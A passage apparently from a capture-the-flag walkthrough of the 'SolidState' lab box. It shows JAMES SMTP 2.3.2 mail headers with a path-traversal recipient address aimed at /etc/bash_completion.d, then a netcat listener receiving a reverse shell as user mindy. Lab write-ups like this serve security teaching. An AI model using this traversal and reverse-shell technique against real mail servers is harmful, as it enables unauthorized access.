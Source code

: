               by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 252
              for <../../../../../../../../etc/bash_completion.d@localhost>;
              Wed, 29 Apr 2020 23:39:07 -0400 (EDT)
    Date: Wed, 29 Apr 2020 23:39:07 -0400 (EDT)
    FROM: 0xdf@10.10.14.47

    : No such file or directory
    -rbash: $'\r': command not found
    mindy@solidstate:~$ ls
    bin  user.txt



And I have a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.51.
    Ncat: Connection from 10.10.10.51:49678.
    id
    uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)







